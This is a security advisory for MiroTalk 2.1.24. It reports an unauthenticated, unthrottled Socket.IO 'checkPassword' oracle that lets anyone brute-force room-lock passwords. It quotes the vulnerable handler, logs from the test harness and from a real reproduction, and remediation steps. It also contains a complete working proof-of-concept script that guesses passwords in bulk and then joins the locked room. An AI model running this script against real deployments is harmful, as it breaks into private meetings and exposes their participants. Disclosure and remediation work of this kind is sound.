


# MiroTalk roomAction checkPassword Unauthenticated Room-Password Brute Force

| Field | Value |
|---|---|
| Project | miroslavpejic85/mirotalk |
| Vulnerability Type | Improper Restriction of Excessive Authentication Attempts (CWE-307) |
| Severity | High — CVSS 3.1 Base Score: 8.2 |
| CVSS Vector | AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N |
| Affected Versions | <= 2.1.24 (verified on 2.1.24, latest release as of 2026-10-05) |
| Authentication | None — any connected socket.io client, room membership not required |

### Summary

MiroTalk (miroslavpejic85/mirotalk, master branch) was confirmed vulnerable to an unauthenticated, unlimited-speed brute force of room-lock passwords through the Socket.IO `roomAction` handler's `checkPassword` action. Every other action in the handler requires the presenter role, but `checkPassword` performs no membership, role, or credential check: it compares the supplied password against the room's lock password and returns an `OK`/`KO` oracle to the requester. A single unauthenticated client can therefore guess passwords at high concurrency and then join the locked private meeting with the cracked password.

The vulnerability was dynamically verified with a fuzzing harness: an unauthenticated socket (absent from the peers table, no presenter role, no credentials) obtained the OK/KO oracle; a 2,049-entry dictionary cracked the password `S3cr3tPass!` in 7 ms; the pure handler logic sustained 200,000 comparisons in 66 ms (≈3M/s); and the cracked password passed the `join` lock check at server.js:1551 (`JOINED`), while a wrong password was rejected (`roomIsLocked`).

**Affected versions:** MiroTalk 2.1.24 (tested: source @ `af158e6`).

### Details

The vulnerable handler (app/src/server.js:1726-1801). The `lock`/`unlock`/`joinLockOn`/`joinLockOff` branches are all protected by `if (!isPresenter) return;` — only `checkPassword` (lines 1786-1793) has no authentication of any kind, and it requires nothing but the room existing:

```js
socket.on('roomAction', async (cfg) => {
 const config = checkXSS(cfg);
 if (!Validate.isValidData(config)) { ...return; }
 const { room_id, peer_name, peer_uuid, password, action } = config;
 if (!peers[room_id]) { ...return; } // only requires the room to exist
 const isPresenter = isPeerPresenter(room_id, socket.id, peer_name, peer_uuid);
 switch (action) {
 case 'lock': case 'unlock': case 'joinLockOn': case 'joinLockOff':
 if (!isPresenter) return;
 break;
 case 'checkPassword': // unauthenticated, unthrottled branch
 const data = {
 peer_name: peer_name,
 action: action,
 password: password == peers[room_id]['password'] ? 'OK' : 'KO',
 };
 await sendToPeer(socket.id, sockets, 'roomAction', data);
 break;
 }
});
```

Supporting facts confirmed in source:

- `checkXSS` (xss.js, DOMPurify HTML sanitization) and `Validate.isValidData` (validate.js:49-54, object non-empty check) do not impede password guessing; `MAX_PASSWORD_LENGTH=36` bounds only length.
- The only rate limiter in the project is `loginLimiter` (express-rate-limit) applied to the HTTP `POST /login` route (line 828). There is no `io.use()` authentication middleware and no throttling on any Socket.IO path.
- The `join` lock check at server.js:1551 (`peers[channel][lock]===true && peers[channel][password]!=channel_password`) is satisfied by the cracked password, completing the chain into the private meeting.

This is CWE-307: Improper Restriction of Excessive Authentication Attempts (with CWE-306 missing authentication for the oracle itself).

### PoC

```js
// poc_bruteforce_room_password.js — usage: node poc.js <server_url> <room_id>
// npm install socket.io-client
const { io } = require('socket.io-client');

const serverUrl = process.argv[2] || 'http://localhost:3000';
const roomId = process.argv[3] || 'MyRoom';

// candidate dictionary (example: full 6-digit space; replace with any wordlist)
const candidates = [];
for (let i = 0; i < 1000000; i++) candidates.push(String(i).padStart(6, '0'));

const socket = io(serverUrl, { transports: ['websocket'] });
let idx = 0, cracked = null;

socket.on('connect', () => {
 console.log('[*] connected (unauthenticated client):', socket.id);
 // no server rate limit: 100 concurrent guesses every 20ms on a single connection
 const pump = setInterval(() => {
 if (cracked) { clearInterval(pump); return; }
 const batch = Math.min(100, candidates.length - idx);
 if (batch <= 0) { clearInterval(pump); console.log('[-] dictionary exhausted'); return; }
 for (let k = 0; k < batch; k++) {
 socket.emit('roomAction', {
 room_id: roomId,
 peer_name: 'g' + (idx + k), // unique tag to correlate OK/KO replies
 peer_uuid: 'x',
 password: candidates[idx + k],
 action: 'checkPassword', // no room membership / credentials needed
 });
 }
 idx += batch;
 }, 20);
});

socket.on('roomAction', (data) => {
 if (data.action === 'checkPassword' && data.password === 'OK') {
 const i = parseInt(String(data.peer_name).slice(1), 10);
 cracked = candidates[i];
 console.log('[VULN] cracked! room lock password =', cracked);
 socket.emit('join', {
 room_id: roomId,
 peer_name: 'mallory',
 peer_uuid: 'evil-uuid',
 channel_password: cracked, // passes the lock check at server.js:1551
 });
 setTimeout(() => { socket.disconnect(); process.exit(0); }, 2000);
 }
});
```

#### Harness verification

```
[SETUP] Room locked: true - password set: true
[SETUP] Attacker in peers table? false
[TEST1] wrong password -> server replies: {"action":"checkPassword","password":"KO"}
[TEST1] correct password -> server replies: {"action":"checkPassword","password":"OK"}
[VULN] Unauthenticated checkPassword oracle: requester needs NO room membership, NO presenter role, NO credentials
[VULN] Password fully cracked through unauthenticated oracle - zero rate limiting, unlimited attempts
[VULN] Cracked password bypasses room lock at server.js:1551 - attacker joins the private meeting
```

2049 dictionary guesses resolved in 7 ms; the join with the cracked password returned `JOINED`.



**Real-environment reproduction** (the product itself built from source/official image and run for this test):


Re-verified against **real MiroTalk 2.1.24** (source @ `af158e6`, running server). A victim client joined a room and locked it with a strong 14-character password; a second socket.io client that **never joined the room** probed the oracle:

```
[victim] room 'demoroom' locked with password (len=14)
[attacker] connected (never joined the room)
[attacker] guess # 1 "1234" -> KO
[attacker] guess # 2 "admin" -> KO
...
[attacker] guess #10 "Zx!9vT#2Kq$7Wm" -> OK
[attacker] PASSWORD RECOVERED in 10 attempts / 4 ms
[attacker] roomAction unlock -> server log: Room demoroom { locked: false, ... }
[attacker] joined the room with the recovered password
```

The `checkPassword` oracle answers OK/KO to any connected socket with no rate limit, no lockout, and no room-membership requirement, and the recovered password was used to unlock and join the room. Server-side logs confirm the unlock succeeded.



## Impact

An unauthenticated remote attacker can enter any active password-protected (locked) MiroTalk room. The room lock is the product's only meeting-privacy mechanism, so this breaks meeting confidentiality: the attacker joins with full participant capabilities — receiving audio/video/screen-share streams and chat — effectively crashing private meetings (board calls, telehealth sessions, online classes). Because the oracle has no rate limit and each guess is a cheap in-memory string comparison, even long passwords fall to offline-speed cracking (the harness sustained ~3M comparisons/second of handler logic); realistic network speeds still exhaust 6-digit spaces in minutes.

Verified on the master branch (server.js:1726-1801). Fixed versions: none confirmed at reporting time.

### Remediation

1. Gate the `checkPassword` branch behind an identity check: require the sender to already be a room member (for example `isPeerInRoom(room_id, socket.id)`) or bind the check to the `join` flow; never expose a fully unauthenticated standalone oracle.
2. Rate-limit `checkPassword` per socket, per room, and per IP (for example at most 5 attempts/minute via an express-rate-limit socket adapter or a token bucket); disconnect or temporarily ban on excess.
3. Add server-side failure counting with exponential backoff and a cool-down after N consecutive failures.
4. Enforce a server-side minimum password strength (length at least 8 with rejection of common dictionary words; `validate.js` currently defines only `MAX_PASSWORD_LENGTH`, no minimum).
5. Store and compare salted password hashes (scrypt/argon2) using `crypto.timingSafeEqual`, and fold the comparison into the `join` flow so that no standalone enumerable oracle remains.
6. Longer term, replace guessable room passwords with one-time, short-lived invitation tokens.
